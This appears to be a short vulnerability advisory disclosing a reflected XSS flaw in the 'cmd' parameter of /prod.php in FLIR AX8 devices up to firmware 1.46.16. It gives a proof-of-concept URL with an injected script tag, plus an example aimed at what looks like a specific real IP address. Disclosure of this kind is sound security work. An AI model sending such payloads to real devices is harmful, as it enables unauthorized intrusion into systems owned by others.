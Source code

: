## XSS vulnerability in /prod.php  in FLIR AX8 up to 1.46.16

#### Description

XSS vulnerability in \usr\www\prod.php  in FLIR AX8 up to 1.46.16 allows attackers to trigger XSS via the `cmd` parameter.

### POC

```
http://target/prod.php?cmd=<script>alert('xss')</script>
```

For example

```
http://222.103.211.89:8004/prod.php?cmd=<script>alert('xss')</script>
```

![image-20250315111554563](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202503172045255.png)



